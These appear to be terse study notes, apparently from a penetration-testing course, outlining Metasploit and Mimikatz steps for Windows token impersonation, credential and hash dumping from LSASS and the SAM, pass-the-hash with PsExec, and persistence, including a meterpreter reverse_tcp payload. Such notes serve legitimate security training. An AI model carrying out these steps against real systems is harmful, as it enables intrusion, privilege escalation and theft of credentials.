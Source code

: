 
### Token Impersonation With Incognito Lsass- Lsass
- service postgresql start
- msfconsole
- workspace -a imperonate
- search
- nmap, identify, use, set, exploit
- set payload windows/x64/meterpreter/reverse_tcp
- sysinfo
- getprivs
- SeImpersonatePrivilege THis Persmission need for token impersonation
- load incognito
- list_tokens -u
- copy the token name
- impersonate_token <name-of-token>
- migrate to the process that is the process of impersonate_token and boom
- sysinfo- hashdump
- getuid
-

### Dumping Hashes With Mimikatz/tool is use to find plaintext password OR Hashes
- service postgesql start
- workspace -a mimikatz
- nmap, identify, search, exploit
- badblue_passthru
- set target badBlue\ EE\ 2.7
- pgrep lsass
- migrate <id>
- sysyinfo
- load kiwi- help
- creds_all
- lsa_dump_sam
- lsa_dump_secrets
- upload /usr/share/windows-resources/binaries-OR-mimikatz/
- .\mimikatz.exe
- privilige::debug
- sekurlsa::logonpasswords
- lsadump::sam
-
### Pass the Hash
- PsExec
- badblue
- getuid, sysinfo
- pgrep lsass
- hash dump

### Establishing Persistence On Windows
- service postgresql start
- workspace -a persistant
- nmap identify exploit
- payload to windows/x64/me/re_tcp
- getuid sysinfo
- search type:post platform:windows persistance
